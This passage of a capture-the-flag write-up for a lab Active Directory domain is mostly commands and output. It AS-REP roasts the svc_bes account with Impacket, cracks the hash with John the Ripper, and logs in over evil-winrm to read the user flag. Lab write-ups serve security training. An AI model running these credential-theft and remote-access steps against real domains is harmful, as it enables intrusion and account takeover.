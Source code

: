 While the latter query returns this:

We can see that the `svc_bes` has `GetChangesAll` privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.

# Lateral Movement

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). We can check this using a tool such as Impacket's `GetNPUsers`.

~~~
unknown@kali:/data/tmp$ GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:00c4e7b0ce1ad503425a4b0161021fe5$8d8d475c06d1fb191d431055f3dc5cf63e22ebcbb6cdf4a7cb122e8f16374f221327e13be255eb60df449969b864abf3322c2c69c16738b9cbbd47ff1a67727656d7c7581c0df55280d19d4553c92fe86fb313fd7fb843bd2e7796183d005edf241d9c89917239f29834ce6595f7359911e427b21a16154e552536dd1e1c66280e240ee9ea6d9d7ca5c462c5abf9a57ca46db4af7c4a43b4261f5560257c58e6e1cc51ebe742dbeb903a7379ae7e2db8882018922feed8ae18ee799621de5f64bf0c10284e66a5017a2f6a13b0ff132e99e715ecded126bdbd6347dd93a0cfff96a586fb5682ce5e04b2960b67401854
~~~

We obtain the TGT ticket for the `svc_bes` and save it to a file called `hash`. We can use Hashcat or JTR in conjunction with `rockyou.txt` to obtain the plaintext password `Sheffield19`.

~~~
unknown@kali:/data/tmp$ /data/src/john/run/john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:18 DONE (2020-06-13 21:28) 0.05387g/s 571282p/s 571282c/s 571282C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

It is now possible to access the server as `svc_bes` using WinRM, and gain `user.txt`.

~~~
unknown@kali:/data/tmp$ sudo gem install evil-winrm
unknown@kali:/data/tmp$ evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> whoami
megacorp\svc_bes
*Evil-WinRM* PS C:\Users\svc_bes\Documents> more ..\Desktop\user.txt
b05fb166688a8603d970c6d033f637f1

*Evil-WinRM* PS C:\Users\svc_bes\Documents> 
~~~
